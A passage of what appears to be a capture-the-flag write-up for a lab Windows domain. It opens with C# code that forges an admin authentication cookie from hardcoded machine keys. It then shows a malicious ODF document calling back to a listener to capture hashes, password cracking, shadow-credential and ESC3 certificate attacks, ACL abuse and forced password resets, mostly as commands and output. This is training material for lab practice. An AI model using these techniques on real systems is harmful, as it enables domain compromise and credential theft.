Console.WriteLine("CookiePath : " + t.CookiePath);
Console.WriteLine("-----------------------------------");
}
static void Main(string[] args)
{
string cmd = args[0].ToLowerInvariant();
string validationKey = "EBF9076B4E3026BE6E3AD58FB72FF9FAD5F7134B42AC73822C5F3EE159F20214B73A80016F9DDB56BD194C268870845F7A60B39DEF96B553A022F1BA56A18B80";
string decryptionKey = "B26C371EA0A71FA5C3C9AB53A343E9B962CD947CD3EB5861EDAE4CCC6B019581";
int minutes = 60;
// create ticket
var now = DateTime.UtcNow;
var expiry = now.AddMinutes(minutes);
var ticket = new FormsAuthenticationTicket(
1, // version
"web_admin", // name
now, // issueDate
expiry, // expiration
false, // isPersistent
"Web Administrators", // userData
"/"
);
var encryptor = new LegacyFormsAuthenticationTicketEncryptor(decryptionKey, validationKey, ShaVersion.Sha256);
try
{
if (cmd == "decode")
{
var decodedTicket = encryptor.DecryptCookie(args[1]);
PrintTicket(decodedTicket);
}
else if (cmd == "gen")
{
var encrypted_cookie = encryptor.Encrypt(ticket);
Console.WriteLine("[+] Encrypted cookie value (place in .ASPXAUTH):");
Console.WriteLine(encrypted_cookie);
}
}
catch (Exception ex)
{
Console.WriteLine("[!] Exception during encrypt: " + ex);
Environment.Exit(5);
}
}
}To compile the project, we also need to install AspNetCore.LegacyAuthCookieCompat in our project directory.
PS C:\> dotnet add package AspNetCore.LegacyAuthCookieCompat --version 2.0.5When decoding our own cookie we get the following information:
PS C:\> .\AuthConsole.exe decode 93E217AE4C0C030222E4FCDE6A8ECDA8FCE20301A658E0C718FC4BB75E1E342E84316B312918B13B7CAFF855F52ECFC1718047B9D38DC8EEB9DC82EC5FB74C04739FDF787D4BA826A9C6A8E597BD76E6DD1A51636B4E3AD6A72C06CE9AD00626803E0A655C192FBE6E1733C3D6FABDBF633A56F39366DF0C787DDD6FD31D0F6A753AB13432DBCF1CEA7311CB30EA2C19C6DF1066191C75F8B4D9AE82160415FE
---- FormsAuthenticationTicket ----
Version : 1
Name : ken.w
IssueDate : 2025-10-21T16:26:26.6383918+02:00
Expiration : 2025-10-21T16:36:26.6383918+02:00
IsPersistent: False
UserData : Web Users
CookiePath : /
-----------------------------------It looks like ken.w has the Web Users role. This role does not have the permission to upload any files, so after changing our role to Web Administrators (which is a pure guess at this point) we can generate the cookie. Next, we replace our current cookie with the forged one in our browser session via devtools.
PS C:\> .\AuthConsole.exe gen
[+] Encrypted cookie value (place in .ASPXAUTH):
E564F870BE6A8AA09DD2D8780E7739FD9212779828BC57940193DCCDB3CB056809DF188C0670160D6C958313AAAC2D235796761FF3A83F906A1D7490F190C356F3FA66D42A65E6236C0614589EB30F2B78272895F0F93CCBA5510774CFC0B04A6B2F2EBD807953394CF4747701FE8BB797D820495A8366075EC239426ED4AFFF8B9A5CD524E22EB5771FB26C803BBD2588A631ABFE2B6754EEA406778DE7B29098485C9532E8C04D88D605E2BF3BC44ECDAF2FFD44853F65711834A0698CC33AAfter some experimenting with the upload form, the only files we are allowed to upload are docx and odt files. We can try to create a malicious document that make a callback to our machine whenever a user opens the document. This allows us to capture hashes via Responder. We will use Bad-ODF.py to create our malicious document.
$ python Bad-ODF.py
____ __ ____ ____ ______
/ __ )____ _____/ / / __ \/ __ \/ ____/
/ __ / __ `/ __ /_____/ / / / / / / /_
/ /_/ / /_/ / /_/ /_____/ /_/ / /_/ / __/
/_____/\__,_/\__,_/ \____/_____/_/
Create a malicious ODF document help leak NetNTLM Creds
By Richard Davy
@rd_pentest
www.secureyourit.co.uk
Please enter IP of listener: 10.10.14.171We can then upload the generated bad.odf and run Responder. After some time we get a hash for natalie.a.

The hash can be cracked with hashcat and we get the password Prettyprincess123!.
$ hashcat natalie.a.hash $ROCKYOU
<HASH>:Prettyprincess123!
$ nxc smb dc.hercules.htb -u 'natalie.a' -p 'Prettyprincess123!' -k
SMB dc.hercules.htb 445 dc [*] x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:False)
SMB dc.hercules.htb 445 dc [+] hercules.htb\natalie.a:Prettyprincess123!BloodHound Enumeration
We collect AD data with BloodHound. Just upload all JSON files one by one (no zip), because one file gave an error. It also seems like RustHound is the only tool that gave good results on BloodHound CE.
rusthound-ce --domain hercules.htb --name-server 10.129.131.250 -f dc.hercules.htb -k --zipWe continue enumerating bloodhound and discover that Natalie has GenericWrite over the WEB DEPARTMENT OU and several users, of which bob.w looks the most interesting. Bob is a member of the Recruitment Managers and might have more access over other objects (that is not directly visible via BloodHound).

The GenericWrite permission allows writing to the msds-KeyCredentialLink property which allows creating Shadow Credentials on the object and authenticate as the principal using kerberos PKINIT (if ADCS is in place). We perform the Shadow Credential attack to recover the NTLM hash of Bob.
$ getTGT.py hercules.htb/natalie.a:Prettyprincess123!
$ export KRB5CCNAME=natalie.a.ccache
$ certipy shadow auto -k -no-pass -account bob.w -dc-host dc.hercules.htb
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[!] Target name (-target) not specified and Kerberos authentication is used. This might fail
[*] Targeting user 'bob.w'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '0e3c2b5b946e44d2884dba15fadadce5'
[*] Adding Key Credential with device ID '0e3c2b5b946e44d2884dba15fadadce5' to the Key Credentials for 'bob.w'
[*] Successfully added Key Credential with device ID '0e3c2b5b946e44d2884dba15fadadce5' to the Key Credentials for 'bob.w'
[*] Authenticating as 'bob.w' with the certificate
[*] Certificate identities:
[*] No identities found in this certificate
[*] Using principal: 'bob.w@hercules.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'bob.w.ccache'
[*] Wrote credential cache to 'bob.w.ccache'
[*] Trying to retrieve NT hash for 'bob.w'
[*] Restoring the old Key Credentials for 'bob.w'
[*] Successfully restored the old Key Credentials for 'bob.w'
[*] NT hash for 'bob.w': 8a65c74e8f0073babbfac6725c66cc3fUsing BloodyAD we can further enumerate objects we have WRITE permission over.
$ getTGT.py hercules.htb/bob.w -hashes :8a65c74e8f0073babbfac6725c66cc3f
$ export KRB5CCNAME=bob.w.ccache
$ bloodyAD -k -d hercules.htb --host dc.hercules.htb get writable --detail
<SNIP
distinguishedName: OU=Web Department,OU=DCHERCULES,DC=hercules,DC=htb
user: CREATE_CHILD
account: CREATE_CHILD
<SNIP>
distinguishedName: CN=Stephen Miller,OU=Security Department,OU=DCHERCULES,DC=hercules,DC=htb
name: WRITE
cn: WRITEBob is able to create new objects in several OUs (CREATE_CHILD) and modify attributes of several users (WRITE on name/cn). The most interesting user is Stephen Miller since he is part of the Security Department OU and can reset several user's password.

We leverage these permissions to move Stephen to the Web Department OU and subsequently doing the same attack as before to retrieve his NTLM hash. We can only move an object if we have the CREATE_CHILD over the Web Department OU and the DELETE_CHILD over the Security Department OU and WRITE_PROPERTY over the distinguisedName of the user we want to move. This can be double-checked with some DACL checks.
$ nxc ldap dc.hercules.htb --use-kcache -M whoami
LDAP dc.hercules.htb 389 DC [*] None (name:DC) (domain:hercules.htb)
LDAP dc.hercules.htb 389 DC [+] hercules.htb\bob.w from ccache
WHOAMI dc.hercules.htb 389 DC distinguishedName: CN=Bob Wood,OU=Web Department,OU=DCHERCULES,DC=hercules,DC=htb
WHOAMI dc.hercules.htb 389 DC Member of: CN=Domain Employees,OU=Domain Groups,OU=DCHERCULES,DC=hercules,DC=htb
WHOAMI dc.hercules.htb 389 DC Member of: CN=Recruitment Managers,OU=Domain Groups,OU=DCHERCULES,DC=hercules,DC=htb
WHOAMI dc.hercules.htb 389 DC name: Bob Wood
WHOAMI dc.hercules.htb 389 DC Enabled: Yes
WHOAMI dc.hercules.htb 389 DC Password Never Expires: Yes
WHOAMI dc.hercules.htb 389 DC Last logon: 134056120259379722
WHOAMI dc.hercules.htb 389 DC pwdLastSet: 133777502881449895
WHOAMI dc.hercules.htb 389 DC logonCount: 2
WHOAMI dc.hercules.htb 389 DC sAMAccountName: bob.w
$ nxc ldap dc.hercules.htb --use-kcache -M daclread -o TARGET_DN='OU=Web Department,OU=DCHERCULES,DC=hercules,DC=htb' PRINCIPAL="Recruitment Managers"
DACLREAD dc.hercules.htb 389 DC ACE[7] info
DACLREAD dc.hercules.htb 389 DC Access mask : DeleteChild, CreateChild (0x3)
DACLREAD dc.hercules.htb 389 DC Trustee (SID) : Recruitment Managers (S-1-5-21-1889966460-2597381952-958560702-1106)
$ nxc ldap dc.hercules.htb --use-kcache -M daclread -o TARGET_DN='OU=Security Department,OU=DCHERCULES,DC=hercules,DC=htb' PRINCIPAL="Recruitment Managers"
DACLREAD dc.hercules.htb 389 DC ACE[8] info
DACLREAD dc.hercules.htb 389 DC Access mask : DeleteChild, CreateChild (0x3)
DACLREAD dc.hercules.htb 389 DC Trustee (SID) : Recruitment Managers (S-1-5-21-1889966460-2597381952-958560702-1106)
We are part of the Recruitment Managers group and see that it has the required permissions to move the object. Let's now proceed to do the actual movement.
$ powerview hercules.htb/bob.w@dc.hercules.htb -k --no-pass
╭─LDAPS─[dc.hercules.htb]─[HERCULES\bob.w]
╰─PV ❯ Set-DomainObjectDN -Identity stephen.m -DestinationDN 'OU=Web Department,OU=DCHercules,DC=hercules,DC=htb'
[2025-10-21 18:11:32] [Set-DomainObject] Success! modified new dn for CN=Stephen Miller,OU=Security Department,OU=DCHERCULES,DC=hercules,DC=htbNow we can use natalie.a to do get the NTLM hash of Stephen, because the GenericWrite permissions are now inherited over to this object.
$ KRB5CCNAME=natalie.a.ccache certipy shadow auto -k -no-pass -account stephen.m -dc-host dc.hercules.htb
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[!] Target name (-target) not specified and Kerberos authentication is used. This might fail
[*] Targeting user 'stephen.m'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '7d40774686f8488c9238fc67d0464405'
[*] Adding Key Credential with device ID '7d40774686f8488c9238fc67d0464405' to the Key Credentials for 'stephen.m'
[*] Successfully added Key Credential with device ID '7d40774686f8488c9238fc67d0464405' to the Key Credentials for 'stephen.m'
[*] Authenticating as 'stephen.m' with the certificate
[*] Certificate identities:
[*] No identities found in this certificate
[*] Using principal: 'stephen.m@hercules.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'stephen.m.ccache'
[*] Wrote credential cache to 'stephen.m.ccache'
[*] Trying to retrieve NT hash for 'stephen.m'
[*] Restoring the old Key Credentials for 'stephen.m'
[*] Successfully restored the old Key Credentials for 'stephen.m'
[*] NT hash for 'stephen.m': 9aaaedcb19e612216a2dac9badb3c210The auditor user seems like the next step as this user is both part of the Remote Management Users and Forest Management group.

We reset the account with BloodyAD since we have the ForceChangePassword permission.
$ getTGT.py hercules.htb/stephen.m -hashes :9aaaedcb19e612216a2dac9badb3c210
$ export KRB5CCNAME=stephen.m.ccache
$ bloodyAD -k -d hercules.htb --host dc.hercules.htb set password auditor 'Pwn3d_by_ACLs!'
$ getTGT.py hercules.htb/auditor:Pwn3d_by_ACLs!
$ export KRB5CCNAME=auditor.ccache
$ evil-winrm-py -k -i dc.hercules.htb --ssl
evil-winrm-py PS C:\Users\auditor\desktop> cat user.txt
6e001f4f622c290c03e287f89f51a972The regular evil-winrm didn't work, so I switched to the python version
Root
Again we look and the permissions of the auditor user.
$ bloodyAD -k -d hercules.htb --host dc.hercules.htb get writable
distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=hercules,DC=htb
permission: WRITE
distinguishedName: OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
distinguishedName: CN=Auditor,OU=Security Department,OU=DCHERCULES,DC=hercules,DC=htb
permission: WRITEOur user has full control (WriteDACL) over the Forest Migration OU. These permissions allows us to add ourself as the owner of this OU and give use the GenericAll permission (a.k.a. FullControl).
$ bloodyAD -k -d hercules.htb --host dc.hercules.htb set owner 'OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb' auditor
[+] Old owner S-1-5-21-1889966460-2597381952-958560702-512 is now replaced by auditor on OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
$ bloodyAD -k -d hercules.htb --host dc.hercules.htb add genericAll 'OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb' auditor
[+] auditor has now GenericAll on OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htbAfter we configure the GenericAll over the OU, we have effectively given ourself control over all objects contained within it. The reason we could not do this before, even though we are part of a group that has the same permissions is because ACL inheritence was probably disabled. By adding ourself as owner we can configure these ACLs ourself and apply the inheritence.
$ bloodyAD -k -d hercules.htb --host dc.hercules.htb get writable --otype USER
distinguishedName: CN=Taylor Maxwell,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
distinguishedName: CN=Fernando Rodriguez,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
distinguishedName: CN=James Silver,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
distinguishedName: CN=Anthony Rudd,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
distinguishedName: CN=Auditor,OU=Security Department,OU=DCHERCULES,DC=hercules,DC=htb
permission: WRITEWe get access to 4 additional users and discover also a path to perform the ADCSESC3 attack via the user Fernando.R is part of the Forest Migration OU, but is Disabled.

So with our GenericAll over this account, we can enable his account and reset his password.
$ bloodyAD -k -d hercules.htb --host dc.hercules.htb remove uac 'fernando.r' -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from fernando.r's userAccountControl
$ bloodyAD -k -d hercules.htb --host dc.hercules.htb set password fernando.r 'Pwn3d_by_ACLs!'
[+] Password changed successfully!We confirm with Certipy the attack we identified with BloodHound.
$ certipy find -k -target dc.hercules.htb -vulnerable -stdout
Template Name : EnrollmentAgent
Display Name : Enrollment Agent
Certificate Authorities : CA-HERCULES
Enabled : True
Client Authentication : False
Enrollment Agent : True
Any Purpose : False
Enrollee Supplies Subject : False
Certificate Name Flag : SubjectAltRequireUpn
SubjectRequireDirectoryPath
Enrollment Flag : AutoEnrollment
Extended Key Usage : Certificate Request Agent
Requires Manager Approval : False
Requires Key Archival : False
Authorized Signatures Required : 0
Schema Version : 1
Validity Period : 2 years
Renewal Period : 6 weeks
Minimum RSA Key Length : 2048
Template Created : 2024-12-04T01:44:26+00:00
Template Last Modified : 2024-12-04T01:44:51+00:00
Permissions
Enrollment Permissions
Enrollment Rights : HERCULES.HTB\Smartcard Operators
HERCULES.HTB\Domain Admins
HERCULES.HTB\Enterprise Admins
Object Control Permissions
Owner : HERCULES.HTB\Enterprise Admins
Full Control Principals : HERCULES.HTB\Domain Admins
HERCULES.HTB\Enterprise Admins
Write Owner Principals : HERCULES.HTB\Domain Admins
HERCULES.HTB\Enterprise Admins
Write Dacl Principals : HERCULES.HTB\Domain Admins
HERCULES.HTB\Enterprise Admins
Write Property Enroll : HERCULES.HTB\Domain Admins
HERCULES.HTB\Enterprise Admins
[+] User Enrollable Principals : HERCULES.HTB\Smartcard Operators
[!] Vulnerabilities
ESC3 : Template has Certificate Request Agent EKU set.We can now perform the attack. First we request a certificate for the EnrollmentAgent template.
$ certipy req -k -target dc.hercules.htb -ca CA-HERCULES -template EnrollmentAgent -dc-ip 10.10.11.91 -dc-host dc.hercules.htb
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[*] Request ID is 6
[*] Successfully requested certificate
[*] Got certificate with UPN 'fernando.r@hercules.htb'
[*] Certificate object SID is 'S-1-5-21-1889966460-2597381952-958560702-1121'
[*] Saving certificate and private key to 'fernando.r.pfx'
[*] Wrote certificate and private key to 'fernando.r.pfx'Subsequently, we can request a certificate on behalf of any user from any other template by including the initial certificate as proof. However, we are not able to request a certificate for the Administrator account since this user is part of the Protected Users group. One thing to note is that the IIS_Administrator account is also part of the Forest Migration OU.
$ nxc ldap dc.hercules.htb --use-kcache -M whoami -o USER='IIS_Administrator'
LDAP dc.hercules.htb 389 DC [*] None (name:DC) (domain:hercules.htb)
LDAP dc.hercules.htb 389 DC [+] hercules.htb\auditor from ccache
WHOAMI dc.hercules.htb 389 DC distinguishedName: CN=IIS_Administrator,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
WHOAMI dc.hercules.htb 389 DC Member of: CN=Service Operators,OU=Domain Groups,OU=DCHERCULES,DC=hercules,DC=htb
WHOAMI dc.hercules.htb 389 DC name: IIS_Administrator
WHOAMI dc.hercules.htb 389 DC Enabled: No
WHOAMI dc.hercules.htb 389 DC Password Never Expires: Yes
WHOAMI dc.hercules.htb 389 DC Last logon: 0
WHOAMI dc.hercules.htb 389 DC pwdLastSet: 133777502835357235
WHOAMI dc.hercules.htb 389 DC logonCount: 0
WHOAMI dc.hercules.htb 389 DC sAMAccountName: iis_administratorWe still need to figure out how to reset the password of IIS_Administrator because it appears we don't have the same GenericAll permissions applied to this user via inheritence. The only user of interest which we haven't explored yet is Ashley.B. This account is part of IT Support and the Remote Management Users group.

So it seems like a natural move to request a certificate on behalf of this user.
$ certipy req -k -target dc.hercules.htb -ca CA-HERCULES -template User -on-behalf-of 'hercules\ashley.b' -pfx fernando.r.pfx -dc-ip 10.10.11.91 -dc-host dc.hercules.htb -dcom
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[*] Requesting certificate via DCOM
[*] Request ID is 12
[*] Successfully requested certificate
[*] Got certificate with UPN 'ashley.b@hercules.htb'
[*] Certificate object SID is 'S-1-5-21-1889966460-2597381952-958560702-1135'
[*] Saving certificate and private key to 'ashley.b.pfx'
[*] Wrote certificate and private key to 'ashley.b.pfx'
$ certipy auth -pfx ashley.b.pfx -dc-ip 10.10.11.91
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[*] Certificate identities:
[*] SAN UPN: 'ashley.b@hercules.htb'
[*] Security Extension SID: 'S-1-5-21-1889966460-2597381952-958560702-1135'
[*] Using principal: 'ashley.b@hercules.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ashley.b.ccache'
[*] Wrote credential cache to 'ashley.b.ccache'
[*] Trying to retrieve NT hash for 'ashley.b'
[*] Got hash for 'ashley.b@hercules.htb': aad3b435b51404eeaad3b435b51404ee:1e719fbfddd226da74f644eac9df7fd2
$ getTGT.py hercules.htb/ashley.b -hashes :1e719fbfddd226da74f644eac9df7fd2
$ KRB5CCNAME=ashley.b.ccache evil-winrm-py -k -i dc.hercules.htb --sslWe then find some scripts and a mail on her desktop.
evil-winrm-py PS C:\Users\ashley.b\Desktop\Mail> type RE_ashley.eml
--_004_MEYP282MB3102AC3B2MEYP282MB3102AUSP_
Content-Type: multipart/alternative;
boundary="_000_MEYP282MB3102AC3E29FED8B2MEYP282MB3102AUSP_"
--_000_MEYP282MB3102AC3E2MEYP282MB3102AUSP_
Content-Type: text/plain; charset="us-ascii"
Content-Transfer-Encoding: quoted-printable
Hello Ashley,
The issue you are facing is that some members in the Department were once p=
art of sensitive groups which are blocking your permissions.
I've discussed your issue at length with security and here is a solution th=
at we feel works for both us and your team. I've attached a copy of the scr=
ipt your team should run to your home folder. For convenience, We have prov=
ided a shortcut to the script in the IT share. You may also run the task ma=
nually from powershell.
If you have any other issues feel free to inform me.
Regards, Domain Admins.
________________________________
From: Ashley Browne
Sent: Monday 09:49:37 AM
To: Domain Admins <Administrator@HERCULES.HTB>
Subject: Unable to reset user's password.
Good Morning,
Today one of my staff received a password reset request from a user, but fo=
r some reason they were unable to perform the action due to invalid permiss=
ions. I have double checked against another user and confirmed our team has=
permission to handle password changes in the department the user belongs to=
. I was told to contact you for further assistance.
For reference the user is "will.s" from the "Engineering Department" Unit.
I look forward to your reply.
Regards, Ashley.
--_000_MEYP282MB3102AC3E21A33MEYP282MB3102AUSP_
Content-Type: text/html; charset="us-ascii"
Content-Transfer-Encoding: quoted-printableThey talk about a problem with resetting certain passwords due to the permission of old accounts. There is also a script located at C:\Users\ashley.b\Scripts\cleanup.ps1 that is responsible for turning off ACL protections on each object under the control of HERCULES\IT Support.
function CanPasswordChangeIn {
param ($ace)
if($ace.ActiveDirectoryRights -match "ExtendedRight|GenericAll"){
return $true
}
return $false
}
function CanChangePassword {
param ($target, $object)
$acls = (Get-Acl -Path "AD:$target").Access
foreach($ace in $acls){
if(($ace.IdentityReference -eq $object) -and (CanPasswordChangeIn $ace)){
return $true
}
}
return $false
}
function CleanArtifacts {
param($Object)
Set-ADObject -Identity $Object -Clear "adminCount"
$acl = Get-Acl -Path "AD:$Object"
$acl.SetAccessRuleProtection($False, $False)
Set-Acl -Path "AD:$Object" -AclObject $acl
}
$group = "HERCULES\IT Support"
$objects = (Get-ADObject -Filter * -SearchBase "OU=DCHERCULES,DC=HERCULES,DC=HTB").DistinguishedName
$Path = "C:\Users\ashley.b\Scripts\log.txt"
Set-Content -Path $Path -Value ""
foreach($object in $objects){
if(CanChangePassword $object $group){
$Members = (Get-ADObject -Filter * -SearchBase $object | Where-Object { $_.DistinguishedName -ne $object }).DistinguishedName
foreach($DN in $Members){
try {
CleanArtifacts $DN
}
catch {
$_.Exception.Message | Out-File $Path -Append
}
"Cleanup : $DN" | Out-File $Path -Append
}
}
}In essence, where Ashley's group appears to have rights on an OU/container, the script walks that container and unprotects every object inside (clears adminCount and re-enables inheritance). We can run the cleanup script and check the logs.

The plan is to also reset the ACL permissions on the IIS_Administrator account so we can reset its password via auditor.
To do this, we need to grant the GenericAll permissions over the Forest Migration OU to IT Support so that after running the script the permissions are also applied to our target user.
$ KRB5CCNAME=auditor.ccache bloodyAD -k -d hercules.htb --host dc.hercules.htb add genericAll 'OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb' 'IT Support'
